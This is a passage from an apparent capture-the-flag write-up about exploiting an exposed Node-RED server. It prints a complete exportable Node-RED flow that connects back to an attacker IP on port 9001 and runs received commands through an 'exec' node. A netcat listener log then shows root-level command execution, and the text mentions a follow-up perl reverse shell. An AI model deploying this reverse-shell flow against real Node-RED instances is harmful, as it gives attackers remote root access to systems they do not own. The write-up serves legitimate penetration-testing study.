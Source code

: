 The first flow I wrote was a simple loop that would connect back to a `nc` listener, and then execute whatever it received and return the results:

![1532601840168](https://0xdfimages.gitlab.io/img/1532601840168.png)

It will initiate the connection when the the flow to output `>`  is sent to stdin of the tcp connection. The TCP connection will come back to me. Then whatever I send back is sent to `exec`. The output of that is formatted and a prompt is added, and then sent back into the TCP connection, where I’ll receive it. Here’s the export:

```

[{"id":"3f7824bc.483a94","type":"tab","label":"Shell","disabled":false,"info":""},{"id":"9754e73a.fb7f5","type":"tcp request","z":"3f7824bc.483a94","server":"10.10.14.14","port":"9001","out":"sit","splitc":" ","name":"","x":520,"y":80,"wires":[["df9367ea.2fd12"]]},{"id":"df9367ea.2fd12","type":"exec","z":"3f7824bc.483a94","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":170,"y":240,"wires":[["7cd3aeef.1a522"],["7cd3aeef.1a522"],[]]},{"id":"6a48f346.ccad1c","type":"inject","z":"3f7824bc.483a94","name":"","topic":"","payload":"> ","payloadType":"str","repeat":"","crontab":"","once":false,"onceDelay":0.1,"x":191.5,"y":50,"wires":[["9754e73a.fb7f5"]]},{"id":"7cd3aeef.1a522","type":"template","z":"3f7824bc.483a94","name":"results + prompt","field":"payload","fieldType":"msg","format":"handlebars","syntax":"mustache","template":"{{{payload}}}\n> ","output":"str","x":440,"y":240,"wires":[["9754e73a.fb7f5"]]}]

```

On pushing the button, I got a callback and could start to look around:

```

root@kali# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51766
> id
uid=0(root) gid=0(root) groups=0(root)

> pwd
/node-red

> ls /home
node

> ls /home/node

```

### Callback Shell

In investigating the box, it’s incredibly bare: no `python`, `python3`, `php`, `nc`, `ifconfig`, `netstat`, `arp`. There is `perl` though.

I’ll use the `perl` reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to get a proper callback shell. The exec node runs a command. In this case, I’ll configure it to take input for the port, which is inserted into the middle of the command:

![1532602467605](https://0xdfimages.gitlab.io/img/1532602467605.png)
